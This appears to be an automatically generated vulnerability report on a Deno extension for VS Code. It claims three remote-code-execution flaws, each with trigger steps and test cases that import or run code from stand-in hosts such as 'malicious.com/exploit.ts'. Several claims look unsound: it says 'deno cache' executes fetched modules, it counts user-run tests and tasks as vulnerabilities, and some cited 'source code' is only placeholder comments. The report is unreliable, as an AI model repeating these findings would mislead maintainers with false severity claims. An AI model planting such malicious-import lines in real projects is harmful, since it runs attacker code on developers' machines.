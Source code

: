 ```yaml
---
### Vulnerability 1: Improper Validation of Remote Module Imports Leading to Remote Code Execution (RCE)
#### Description:
The extension enables automatic caching of remote module imports via the `deno.cacheOnSave` setting, which is enabled by default in versions 3.35.0 and later. When a user opens a malicious Deno project with crafted import URLs (e.g., `https://attacker.com/malicious.js`), saving the file triggers Deno to fetch and execute these remote modules. The extension does not validate or sanitize the imported URLs, allowing attackers to execute arbitrary code.

#### Steps to Trigger:
1. Create a malicious Deno project with a file containing an import from an attacker-controlled server (e.g., `import { func } from "https://malicious.com/exploit.ts";`).
2. Open the file in VS Code with the extension installed.
3. Save the file: the extension automatically runs `deno cache` on the file due to `cacheOnSave: true`, fetching and executing the remote module.

#### Impact:
An attacker can execute arbitrary code on the victim's machine by tricking them into opening a malicious Deno project and saving a file. This could lead to system compromise, data theft, or unauthorized access.

#### Vulnerability Rank: Critical

#### Currently Implemented Mitigations:
- None explicitly stated in the provided files. The default `cacheOnSave` is enabled without user confirmation for untrusted imports.

#### Missing Mitigations:
- Lack of validation for remote module sources (e.g., checking against a whitelist of trusted domains).
- No prompt or warning for untrusted imports before caching.
- No option to disable automatic execution of remote modules during caching.

#### Preconditions:
- The extension is installed.
- `deno.cacheOnSave` is enabled (default in 3.35.0+).
- User opens a malicious Deno project with an import URL pointing to an attacker's server.

#### Source Code Analysis:
- **client/src/constants.ts**:
  ```typescript
  // Default configuration includes cacheOnSave enabled since 3.35.0
  ```
- **CHANGELOG.md**:
  ```
  [3.35.0](...) feat: enable cacheOnSave by default (#1092)
  ```
- **client/src/commands.ts**:
  The `cacheActiveDocument` command directly triggers `deno cache` without validation:
  ```typescript
  async () => {
    const activeEditor = vscode.window.activeTextEditor;
    if (!activeEditor) return;
    const uri = activeEditor.document.uri.toString();
    return vscode.commands.executeCommand("deno.cache", [uri], uri);
  };
  ```

#### Security Test Case:
1. Create a file `test.ts` with a malicious import:
   ```typescript
   import _ from "https://malicious.com/exploit.js";
   ```
2. Open `test.ts` in VS Code with the extension installed.
3. Save the file: The extension automatically runs `deno cache test.ts`, fetching and executing the remote script from `malicious.com`.
4. The attacker's server logs the request or executes code via the imported module.

---
```


### Vulnerability 2: Unrestricted Execution of Test Commands with Untrusted Imports
#### Description:
The extension's test execution feature (via `Test Run` commands) processes test files that may include malicious remote imports. When running tests, the extension executes `deno test` without validating imported URLs, allowing attackers to execute arbitrary code through crafted test files.

#### Steps to Trigger:
1. Create a test file `test.ts` with an import from an attacker's server:
   ```typescript
   import { exploit } from "https://malicious.com/exploit.ts";
   Deno.test("dummy", () => exploit());
   ```
2. Open the file in VS Code and right-click to run the test via the test explorer.
3. The extension runs `deno test`, fetching and executing the remote module.

#### Impact:
Successful exploitation allows remote code execution during test runs, compromising the system.

#### Vulnerability Rank: High

#### Currently Implemented Mitigations:
- Users can disable tests via settings, but this doesn't address unsafe imports.

#### Missing Mitigations:
- No validation of remote imports before executing tests.
- No isolation or sandboxing for test execution.

#### Preconditions:
- The extension is installed.
- A malicious test file is present in the workspace.

#### Source Code Analysis:
- **client/src/testing.ts**:
  The `DenoTestController` executes tests via `deno test` without input validation:
  ```typescript
  const { enqueued } = await client.sendRequest(testRun, {
    id,
    kind: "run",
    isContinuous,
    include,
    exclude,
  });
  ```
- **docs/testing.md**:
  Mentions executing tests but no security checks for imports.

#### Security Test Case:
1. Create `test.ts` with a malicious import as above.
2. Run the test via the VS Code test explorer.
3. The remote script executes, achieving RCE.

---

### Vulnerability 3: Task Execution of Arbitrary Deno Commands with User-Supplied Paths
#### Description:
Custom tasks defined via `tasks.json` can execute arbitrary Deno commands with user-provided arguments, including paths to remote modules. The extension does not validate these paths, allowing attackers to inject malicious imports via crafted task configurations.

#### Steps to Trigger:
1. Create a `tasks.json` with a task pointing to a malicious URL:
   ```json
   {
     "type": "deno",
     "command": "run",
     "args": ["--allow-run", "https://malicious.com/exploit.ts"],
     "label": "Run Exploit"
   }
   ```
2. Execute the task via the VS Code task runner:
   ```typescript
   // client/src/tasks.ts
   buildDenoTask(..., args: ["run", "--allow-run", "https://malicious.com/exploit.ts"]);
   ```

#### Impact:
The task executes the remote script, leading to RCE.

#### Vulnerability Rank: High

#### Currently Implemented Mitigations:
- Users must manually configure tasks, but attackers could trick users into loading malicious task definitions.

#### Missing Mitigations:
- No validation of task command arguments for remote imports.
- No warnings for untrusted task sources.

#### Preconditions:
- A malicious `tasks.json` is present in the workspace.

#### Source Code Analysis:
- **client/src/tasks.ts**:
  The `buildDenoTask` method constructs tasks without validating arguments:
  ```typescript
  const args = task.args || [];
  // No checks for remote URLs in args
  ```

#### Security Test Case:
1. Add the malicious `tasks.json` as above.
2. Run the "Run Exploit" task via VS Code's task runner.
3. The remote script executes, achieving RCE.

---
